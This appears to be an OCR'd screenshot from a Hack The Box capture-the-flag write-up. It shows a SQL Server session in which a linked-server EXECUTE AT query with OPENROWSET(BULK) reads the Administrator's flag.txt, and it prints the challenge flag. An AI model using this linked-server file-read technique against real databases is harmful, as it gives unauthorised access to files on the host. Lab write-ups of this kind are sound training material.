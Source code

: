 ```c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------                                                                                                
WINSRV02\SQLEXPRESS                                                                                                              
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)                                                                                              Sep 24 2019 13:48:23                                                                                                                 Copyright (C) 2019 Microsoft Corporation                                                                                             
Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)                                                                                                                  
testadmin                                                                                                                                  
1                                                                                                                                                                        
(1 rows affected)                                                                                                                    
1> execute ('select * from OPENROWSET(BULK ''C:/Users/Administrator/desktop/flag.txt'', SINGLE_CLOB) AS Contents') at [local.test.linked.srv];                                                                                                                          
2> go                                                                                                                                BulkColumn                                                                                                                           
--------------------------------------------------------------------------------------------------------------------------------------------


HTB{46u$!n9_l!nk3d_$3rv3r$}                                                                                                                                                                                                                                               
(1 rows affected) 
```